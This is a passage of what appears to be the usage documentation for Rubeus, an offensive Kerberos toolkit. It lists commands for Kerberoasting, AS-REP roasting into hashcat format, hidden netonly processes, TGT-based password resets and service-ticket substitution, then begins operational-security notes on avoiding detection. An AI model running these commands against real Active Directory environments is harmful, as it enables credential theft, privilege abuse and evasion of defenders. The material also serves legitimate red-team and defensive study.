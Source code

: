         Perform Kerberoasting, with a delay of 5000 milliseconds and a jitter of 30%:
            Rubeus.exe kerberoast /delay:5000 /jitter:30 [/nowrap]

        Perform AES Kerberoasting:
            Rubeus.exe kerberoast /aes [/nowrap]

        Perform AS-REP "roasting" for any users without preauth:
            Rubeus.exe asreproast [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]

        Perform AS-REP "roasting" for any users without preauth, outputting Hashcat format to a file:
            Rubeus.exe asreproast /outfile:hashes.txt /format:hashcat [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."]

        Perform AS-REP "roasting" for any users without preauth using alternate credentials:
            Rubeus.exe asreproast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU,..."] [/nowrap]


     Miscellaneous:

        Create a hidden program (unless /show is passed) with random /netonly credentials, displaying the PID and LUID:
            Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" [/show]

        Reset a user's password from a supplied TGT (AoratoPw):
            Rubeus.exe changepw </ticket:BASE64 | /ticket:FILE.KIRBI> /new:PASSWORD [/dc:DOMAIN_CONTROLLER]

        Calculate rc4_hmac, aes128_cts_hmac_sha1, aes256_cts_hmac_sha1, and des_cbc_md5 hashes:
            Rubeus.exe hash /password:X [/user:USER] [/domain:DOMAIN]

        Substitute an sname or SPN into an existing service ticket:
            Rubeus.exe tgssub </ticket:BASE64 | /ticket:FILE.KIRBI> /altservice:ldap [/ptt] [/luid] [/nowrap]
            Rubeus.exe tgssub </ticket:BASE64 | /ticket:FILE.KIRBI> /altservice:cifs/computer.domain.com [/ptt] [/luid] [/nowrap]

        Display the current user's LUID:
            Rubeus.exe currentluid

        The "/consoleoutfile:C:\FILE.txt" argument redirects all console output to the file specified.

        The "/nowrap" flag prevents any base64 ticket blobs from being column wrapped for any function.


     NOTE: Base64 ticket blobs can be decoded with :

        [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("aa..."))


### Opsec Notes

This section covers some notes on the operational security of using Rubeus in an environment, with some technical examples comparing/contrasting some of its approaches to Mimikatz. The material here will be expanded in the future.

#### Overview

Any action you perform on a system is a detectable risk, especially when abusing functionality in "weird"/unintended ways. Rubeus (like any attacker toolset) can be detected in a number of methods, either from the host, network, or domain perspectives. I have a workmate who is fond of stating _"everything is stealthy until someone is looking for it"_ - tools and techniques generally evade detection because either a) people are not sufficiently aware of the tool/technique and therefore not even looking, b) people can not collect and process the data needed at the appropriate scale, or c) the tool/technique blends with existing behavior to sufficiently sneak in with false positives in an environment. There is much more information on these steps and detection subversion in general in [Matt Graeber](https://twitter.com/mattifestation) and [Lee Christensen](https://twitter.com/tifkin_)’s Black Hat USA 2018 [“Subverting Sysmon”](https://i.blackhat.com/us-18/Wed-August-8/us-18-Graeber-Subverting-Sysmon-Application-Of-A-Formalized-Security-Product-Evasion-Methodology.pdf) talk and associated [whitepaper](https://specterops.io/assets/resources/Subverting_Sysmon.pdf).
